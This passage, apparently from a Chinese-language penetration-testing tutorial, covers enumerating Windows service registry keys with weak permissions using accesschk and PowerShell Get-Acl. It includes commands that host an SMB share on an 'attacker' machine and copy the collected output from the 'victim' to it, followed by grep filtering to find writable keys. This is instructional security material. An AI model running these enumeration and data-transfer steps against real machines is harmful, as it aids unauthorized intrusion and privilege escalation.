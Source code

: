     accesschk64.exe "NT AUTHORITY\INTERACTIVE" -kqswvu hklm\System\CurrentControlSet\services -accepteula
    

> 为了更好的理解 accesschk 工具参数的用法，可以查看此[手册](https://learn.microsoft.com/zh-cn/sysinternals/downloads/accesschk)。

#### **

1.2、枚举弱权限注册表项：PowerShell + Linux-Fu

**

第二种查找服务弱权限注册表项的方法是使用 PowerShell 的 cmdlet，可使用以下命令：

    Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List
    

由于输出内容较多，因此，可以将输出重定向到文件，然后发送回我们的攻击机慢慢查看。

    Get-Acl -Path hklm:\System\CurrentControlSet\services\* | Format-List | Out-File -FilePath C:\temp\service_keys.txt
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193921301-1432032333.png)

将此文件发送回攻击机的最方便的方法是在攻击机使用以下命令启动一个 SMB 服务：

    impacket-smbserver share $(pwd) -smb2support
    

然后回到受害者机器，使用以下命令将文件发送到攻击者机器：

    copy C:\temp\service_keys.txt \\172.16.1.30\share
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193921651-598836903.png)

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193922852-929955386.png)

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193921978-1405774515.png)

查看两侧文件的字节大小是否一样，以确保文件的传输是正常的。同时，由于 Windows 和 Linux 关于文本文件格式不同的问题，我们需要在攻击机通过 dos2unix 命令将其格式进行转换，然后才能使用 grep 命令去提取我们感兴趣的信息。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193920726-151066335.png)

由于该文件非常庞大，因此，我们需要使用一些 Linux 技巧，以将输出内容缩减到只包含我们感兴趣的信息，这样才能更容易地发现异常值。

    cat service_keys.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users"
    

输出的内容依旧很多，但基本上就是一条 Path 对应一条 Access，同时还看到许多显示“ ReadKey”的权限。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250321193920709-2133312048.png)

为此，我们需要使用以下命令省略 ReadKey 的输出：

    cat service_keys.txt | grep -i "Path\|Access\|BUILTIN\\\Users\|Everyone\|INTERACTIVE\|Authenticated Users" | grep -v "ReadKey"
    